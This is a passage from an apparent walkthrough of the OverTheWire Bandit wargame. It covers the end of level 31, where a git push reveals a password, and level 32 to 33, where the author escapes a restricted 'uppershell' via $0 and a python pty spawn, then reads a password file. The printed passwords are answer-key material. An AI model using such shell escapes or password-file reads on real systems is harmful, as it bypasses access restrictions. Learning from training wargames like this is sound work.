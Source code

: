 ```shell
Total 6 (delta 1), reused 0 (delta 0), pack-reused 0
remote: ### Attempting to validate files... ####
remote: 
remote: .oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.
remote: 
remote: Well done! Here is the password for the next level:
remote: rmCBvG56y58BXzv98yZGdO7ATVL5dW8y 
remote: 
remote: .oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.
remote: 
remote: 
remote: .oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.
remote: 
remote: Wrong!
remote: 
remote: .oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.
remote: 
To ssh://localhost:2220/home/bandit31-git/repo
 ! [remote rejected] master -> master (pre-receive hook declined)
error: failed to push some refs to 'ssh://localhost:2220/home/bandit31-git/repo'
bandit31@bandit:/tmp/tmp.ZhEvlzwot6/repo$ D^C
bandit31@bandit:/tmp/tmp.ZhEvlzwot6/repo$ 

```

## Result
`rmCBvG56y58BXzv98yZGdO7ATVL5dW8y`


# Level 32 -> 33
## Level Goal
After all this git stuff its time for another escape. Good luck!

## Solution
- Using the `$0` alias for the shell name (a special parameter that holds the name of the shell or shell script) resulted in an error upon logging into the shell area, which was quite disagreeable. To remedy this, we need to spawn a new shell using `python3 -c "import pty; pty.spawn('/bin/bash')"`
```shell
>> $0
$ ls
uppershell
$ cat /etc/bandit_pass/ba32    
cat: /etc/bandit_pass/ba32: No such file or directory
$ 
$ 
$ 
$ ^C
$ cat /etc/bandit_pass/bandit32
cat: /etc/bandit_pass/bandit32: Permission denied
$ python3
Python 3.10.12 (main, Jun 11 2023, 05:26:28) [GCC 11.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> exit()
$ python3 -c "import pty; pty.spawn('/bin/bash');"
bandit33@bandit:~$ ls
uppershell
bandit33@bandit:~$ cat /etc/bandit_pass/bandit34
cat: /etc/bandit_pass/bandit34: No such file or directory
bandit33@bandit:~$ cat /etc/bandit_pass/bandit33
odHo63fHiFqcWWJG9rLiLDtPm45KzUKy
```
